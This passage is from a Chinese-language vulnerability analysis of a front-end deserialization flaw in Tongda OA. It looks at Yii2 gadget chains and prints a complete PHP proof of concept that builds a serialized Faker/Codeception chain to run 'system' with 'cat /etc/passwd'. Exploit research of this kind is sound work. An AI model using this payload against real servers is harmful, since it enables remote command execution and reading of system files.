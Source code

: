 ### 1. 前台反序列化漏洞

#### 前言

由于已经有师傅对于如何触发反序列化的方法和代码进行了说明，这里我也就不拾人牙慧，主要谈一谈这里反序列化链的挖掘。具体的触发流程可以参考https://mp.weixin.qq.com/s/nOQuqt\_mO0glY-KALc1Xiw  
目前网上也出现了一些分析反序列化链的分析，但是目前我看到的大部分分析走的反序列化链都是通达OA自己实现了一个redis的Connection类进行攻击的poc。但是这个链，我个人认为是不够完善的。因为首先这个链设计到了socket的连接问题，可能会有一定的不稳定性和延迟。其次这条链的序列化数据比较长。那么能不能通过yii2框架的自带的链子进行更加稳定的反序列化链的触发呢。先说答案可以，并且GitHub上也已经有了链子的构造。下面进行整条链子的分析流程分享。

#### 确定yii版本

首先通过参考师傅的审计思路，我们可以发现这里的yii2是2.0.13-dev。

![00.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-af20432fe93fb7e37be89dba373a68ccc201d95c.png)  
看到是yii2的时候我就想着去偷个懒，毕竟这个框架之前爆出了很多反序列化的问题，到网上搜了一圈poc，发现没一个能打通的。这里我发现了一个问题，网上的poc基本上如下：

```php
<?php
namespace Faker{

    class DefaultGenerator{
        protected $default ;
        function __construct($argv)
        {
            $this->default = $argv;
        }
    }

    class ValidGenerator{
        protected $generator;
        protected $validator;
        protected $maxRetries;
        function __construct($command,$argv)
        {
            $this->generator = new DefaultGenerator($argv);
            $this->validator = $command;
            $this->maxRetries = 99999999;
        }
    }
}

namespace Codeception\Extension{
    use Faker\ValidGenerator;
    class RunProcess{
        private $processes = [] ;
        function __construct($command,$argv)
        {
            $this->processes[] = new ValidGenerator($command,$argv);
        }
    }
}

namespace {
    use Codeception\Extension\RunProcess;
    $exp = new RunProcess('system','cat /etc/passwd');
    echo(base64_encode(serialize($exp)));
    exit();
}
```
